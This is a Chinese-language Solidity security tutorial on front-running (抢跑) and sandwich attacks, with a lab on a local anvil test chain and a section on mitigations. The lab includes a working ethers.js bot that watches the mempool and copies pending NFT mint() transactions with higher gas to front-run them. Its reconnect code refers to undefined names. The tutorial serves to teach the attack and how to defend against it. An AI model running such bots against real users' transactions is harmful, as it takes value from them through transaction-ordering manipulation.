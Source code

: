 ```yaml
---
title: S11. 抢先交易
tags:
  - solidity
  - security
  - erc721
---
```


# WTF Solidity 合约安全: S11. 抢先交易

我最近在重新学 Solidity，巩固一下细节，也写一个“WTF Solidity 合约安全”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

这一讲，我们将介绍智能合约的抢先交易（Front-running，抢跑）。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利$12亿](https://dune.com/chorus_one/ethereum-mev-data)。

## Front-running

### 传统抢跑
抢跑最初诞生于传统金融市场，是一场单纯为了利益的竞赛。在金融市场中，信息差催生了金融中介机构，他们可以通过最先了解某些行业信息并最先做出反应从而实现获利。这些攻击主要发生在股票市场交易和早期的域名注册。

2021 年 9 月，NFT 市场 OpenSea 的产品负责人 Nate Chastain，被发现通过抢先购买将在 OpenSea 首页展示的 NFT 获利。
他利用内幕信息来获得不公平的信息差，OpenSea 将要在首页推送哪些 NFT，然后在展出在首页前抢先买入，然后再在 NFT 登上首页后卖出。然而，有一个人通过将 NFT 交易时间戳与 OpenSea 上有问题的 NFT 的首页促销进行匹配，发现了这一非法行为，Nate 也被告上法院。

另一个传统抢跑的例子包括是在代币上[币安](https://www.wsj.com/articles/crypto-might-have-an-insider-trading-problem-11653084398?mod=hp_lista_pos4)/[coinbase](https://www.protocol.com/fintech/coinbase-crypto-insider-trading)等知名交易所之前，会有得知内幕消息的老鼠仓提前买入。在上币的公告发出后，币价会大幅上涨，这时抢跑者会卖出盈利。

### 链上抢跑

链上抢跑指的是搜索者或矿工通过调高`gas`或其他方法将自己的交易安插在其他交易之前，来攫取价值。在区块链中，矿工可以通过打包、排除或重新排序他们产生的区块中的交易来获得一定的利润，而`MEV`是衡量这种利润的指标。

在用户的交易被矿工打包进以太坊区块链之前，大部分交易会汇集到Mempool（交易内存池）中，矿工在这里寻找费用高的交易优先打包出块，实现利益最大化。通常来说，gas price越高的交易，越容易被打包。同时，一些`MEV`机器人也会搜索`mempool`中有利可图的交易。比如，一笔在去中心化交易所中滑点设置过高的`swap`交易可能会被三明治攻击：通过调整gas，套利者会在这笔交易之前插一个买单，再在之后发送一个卖单，并从中盈利。这等效于哄抬市价。

![](./img/S11-1.png)

## 抢跑实践

如果你学会了抢跑，你就算是入门的币圈科学家了。接下来，让我们实践一下，抢跑一笔铸造NFT的交易。我们将会用到的工具：
- `Foundry`的`anvil`工具搭建本地测试链，请提前安装好 [foundry](https://book.getfoundry.sh/getting-started/installation)。
- `remix`进行NFT合约的部署和铸造
- `etherjs`脚本监听`mempool`并进行抢跑。

**1. 启动Foundry本地测试链：** 在安装好 `foundry` 之后，在命令行输入 `anvil --chain-id 1234 -b 10` 搭建本地测试链，chain-id 为 1234，每 10 秒产出一个区块。搭建成功后，它会在显示一些测试账户的地址和私钥，每个账户有 10000 ETH。你可以使用它们进行测试。

![](./img/S11-2.png)

**2. 将Remix连接到测试链：** 打开 Remix 的部署页面，打开左上角的`Environment`下拉菜单，选`Foundry Provider`即可将 Remix 连接到测试链。

![](./img/S11-3.png)


**3. 部署NFT合约：** 在 Remix 上部署一个简单的 freemint（免费铸造）NFT合约。它有一个`mint()`，用于免费铸造NFT。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.21;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. 部署ethers.js抢跑脚本：** 简单来说，`frontrun.js`脚本监听了测试链`mempool`中的未决交易，筛选出调用了`mint()`的交易，然后复制它并调高`gas`进行抢跑。如果你不熟悉`ether.js`，可以阅读[WTF Ethers极简教程](https://github.com/WTFAcademy/WTF-Ethers)。

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. 创建provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork()
network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] 连接到 chain ID ${res.chainId}`));

// 2. 创建interface对象，用于解码交易详情。
const iface = new utils.Interface([
    "function mint() external",
])

// 3. 创建钱包，用于发送抢跑交易
const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
const wallet = new ethers.Wallet(privateKey, provider)

const main = async () => {
    // 4. 监听pending的mint交易，获取交易详情，然后解码。
    console.log("\n4. 监听pending交易，获取txHash，并输出交易详情。")
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // 获取tx详情
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // filter pendingTx.data
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // 打印txHash
                    console.log(`\n[${(new Date).toLocaleTimeString()}] 监听Pending交易: ${txHash} \r`);

                    // 打印解码的交易详情
                    let parsedTx = iface.parseTransaction(tx)
                    console.log("pending交易详情解码：")
                    console.log(parsedTx);
                    // Input data解码
                    console.log("raw transaction")
                    console.log(tx);

                    // 构建抢跑tx
                    const txFrontrun = {
                        to: tx.to,
                        value: tx.value,
                        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
                        maxFeePerGas: tx.maxFeePerGas * 1.2,
                        gasLimit: tx.gasLimit * 2,
                        data: tx.data
                    }
                    // 发送抢跑交易
                    var txResponse = await wallet.sendTransaction(txFrontrun)
                    console.log(`正在frontrun交易`)
                    await txResponse.wait()
                    console.log(`frontrun 交易成功`)                
                }
            }
        }
    });

    provider._websocket.on("error", async () => {
        console.log(`Unable to connect to ${ep.subdomain} retrying in 3s...`);
        setTimeout(init, 3000);
      });

    provider._websocket.on("close", async (code) => {
        console.log(
            `Connection lost with code ${code}! Attempting reconnect in 3s...`
        );
        provider._websocket.terminate();
        setTimeout(init, 3000);
    });    
};

main()
```

**5. 调用`mint()`函数：** 在 Remix 的部署页面调用 Freemint 合约的`mint()` 函数，进行 NFT 铸造。

**6. 脚本监听到交易并进行抢跑** 我们可以在终端看到 `frontrun.js` 脚本成功监听到了交易，并进行了抢跑。如果你调用 NFT 合约的 `ownerOf()` 函数查看 `tokenId` 为 0 的持有者是抢跑脚本中的钱包地址，证明抢跑成功！。
![](./img/S11-4.png)

## 预防方法

抢先交易是以太坊等公链上普遍存在的问题。我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益：

- 使用预提交方案(commit-reveal scheme)。
- 使用暗池，用户发出的交易将不进入公开的`mempool`，而是直接到矿工手里。例如 flashbots 和 TaiChi。
- 在调用参数中加上保护性参数，如[滑点保护](https://uniswapv3book.com/milestone_3/slippage-protection.html)，从而减少抢跑者的潜在收益。

## 总结

这一讲，我们介绍了以太坊的抢先交易，也叫抢跑。这种起源于传统金融行业的攻击模式在区块链中更容易实施，因为所有的交易信息都是公开的。我们做了一个抢跑的时间：抢跑一笔铸造 NFT 的交易。当需要有类似的交易时，最好支持隐藏的内存池，或者实施批量拍卖等措施限制。它是以太坊等公链上普遍存在的问题，我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益。
